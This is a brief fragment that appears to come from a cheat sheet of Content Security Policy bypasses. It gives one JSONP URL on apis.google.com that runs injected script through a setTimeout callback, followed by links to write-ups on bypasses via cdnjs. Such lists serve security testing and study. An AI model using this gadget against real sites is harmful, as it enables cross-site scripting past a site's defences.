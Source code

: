 ## apis.google.com

```
https://apis.google.com/complete/search?client=chrome&q=alert(origin)//&callback=setTimeout"
```

## cdnjs.cloudflare.com

[](https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/)
[](https://blog.0daylabs.com/2016/09/09/bypassing-csp/)
[](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22)
